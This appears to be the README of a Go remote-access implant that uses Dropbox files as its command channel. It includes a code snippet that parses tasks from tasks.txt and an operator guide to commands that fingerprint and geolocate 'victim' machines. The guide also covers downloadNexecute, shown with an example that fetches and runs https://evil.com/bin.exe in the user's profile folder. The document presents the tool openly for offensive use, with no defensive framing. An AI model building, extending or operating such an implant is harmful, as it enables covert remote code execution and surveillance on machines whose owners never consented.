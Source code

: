 ```
    cmd := downloadDBFile("tasks.txt")
	cmdNoNls := strings.Split(cmd, "\n")
	fmt.Printf("received cmd: %s\n", cmd)
	cmdSplit := strings.Split(cmdNoNls[0], "+-")
	uuidFullPath := "/" + UUID
	if len(cmdSplit) < 2 {
		logFileWriter(uuidFullPath, "Issued command has less than 2 parts. At minimum, it must have 2 parts: [who it's addressed to]+-[what the cmd is]. Please see the guide for list of available commands and their accompanying arguments.")
		return
	}
```

## Available Commands
The list of available commands is short. Listed here are the names & a short description of what they do:

1. GMac - Returns the MAC address of the machine
2. profile - Returns Windows version & architecture of the machine
3. location - Returns location info of the machine
4. downloadNexecute - Downloads a user-specified binary and executes it, then returns results of execution

### GMac
Requires no additional arguments. Simply specify who the command is for followed up by the word *GMac*. Example:

* `everyone+-GMac`

### profile

Requires no additional arguments. Simply specify who the command is for followed up by the word *profile*. Example:

* `everyone+-profile`


### location

Requires no additional arguments. Simply specify who the command is for followed up by the word *location*. Example:

* `everyone+-location`

### downloadNexecute

This function's purpose is as its name implies: Downloading a user specified file and executing it, then writing the output of the execution to a file on Dropbox. If any errors are encountered, they are written to the log file in the victim's unique folder. When calling this command, you need to give 3 arguments which include:

1. The link to the binary which you wish to download & execute
2. The filename to name the file when it's dropped on the machine
3. The environment variable of where to drop it (EX: APPDATA, USERPROFILE, TEMP)

An example of what calling this command would look like is:

* `everyone+-downloadNexecute+-https://evil.com/bin.exe+-defaultFile.exe+-USERPROFILE`
